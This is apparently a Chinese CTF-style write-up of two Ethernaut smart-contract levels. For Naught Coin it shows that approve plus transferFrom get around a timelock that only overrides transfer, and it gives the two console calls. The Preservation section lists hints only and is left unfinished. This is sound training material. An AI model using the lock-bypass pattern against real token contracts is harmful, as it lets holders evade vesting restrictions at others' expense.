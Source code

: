 

## 

## 

## Naught Coin

### 要求：

- 立即完成转走我们账户所拥有的代币

### 漏洞

这个代币合约虽然继承了ERC20，但是它只重写(override)了ERC20的transfer函数，并且lockTokens这个modifer里面也没有对账户的所有权进行限制，因此我们可以使用approve和transferFrom函数来完成转账

### 攻略

1. 在console面板调用approve函数：

```solidity
contract.approve(player,toWei("1000000"))
```

2. 获取授权之后，再调用transferFrom函数

```solidity
contract.transferFrom(player,contract.address,toWei("1000000"))
```

3. over

![image-20220804123352693](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220804123352693.png)

![image-20220804123439416](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220804123439416.png)

## Preservation

### 要求

- 获取给我们的实例的所有权

  帮助：

  - 阅读solidity官方文档有关delegatecall的低级函数知识。
  - 理解delegatecall如何保护上下文
  - 理解如何存储和访问状态变量
  - 理解不同数据类型之间是如何进行类型转换

### 漏洞（待完善）

### 攻略（待完善）

